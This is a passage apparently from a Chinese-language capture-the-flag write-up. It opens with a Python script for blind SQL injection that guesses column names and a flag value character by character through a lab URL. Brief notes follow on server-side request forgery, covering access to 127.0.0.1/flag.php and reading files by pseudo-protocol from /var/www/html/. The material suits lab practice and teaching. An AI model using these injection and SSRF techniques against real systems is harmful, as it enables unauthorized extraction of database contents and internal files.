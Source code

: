 ```python
                if mark in r.text:
                    name = name + i
                    break
        list.append(name)
    print('table_name:', list)
# start = time.time()
table_name()
def column_name():
    list = []
    for k in range(0, 3):  # 判断表里最多有4个字段
        name = ''
        for j in range(1, 9):  # 判断一个 字段名最多有9个字符组成
            for i in 'sqcwertyuioplkjhgfdazxvbnm':
                url = urlOPEN + 'if(substr((select column_name from information_schema.columns where table_name="flag"and table_schema= database() limit %d,1),%d,1)="%s",1,(select table_name from information_schema.tables))' % (
                k, j, i)
                r = requests.get(url)
                if mark in r.text:
                    name = name + i
                    break
        list.append(name)
    print('column_name:', list)
column_name()
def get_data():
    name = ''
    for j in range(1, 50):  # 判断一个值最多有51个字符组成
        for i in range(48, 126):
            url = urlOPEN + 'if(ascii(substr((select flag from flag),%d,1))=%d,1,(select table_name from information_schema.tables))' % (
            j, i)
            r = requests.get(url)
            if mark in r.text:
                name = name + chr(i)
                print(name)
                break
    print('value:', name)


get_data()

```



### 08 ssrf之内网访问

直接在url上=127.0.0.1/flag.php

### 09 ssrf之伪协议读取文件

让在web目录，根据经验php的web目录路径为：/var/www/html/
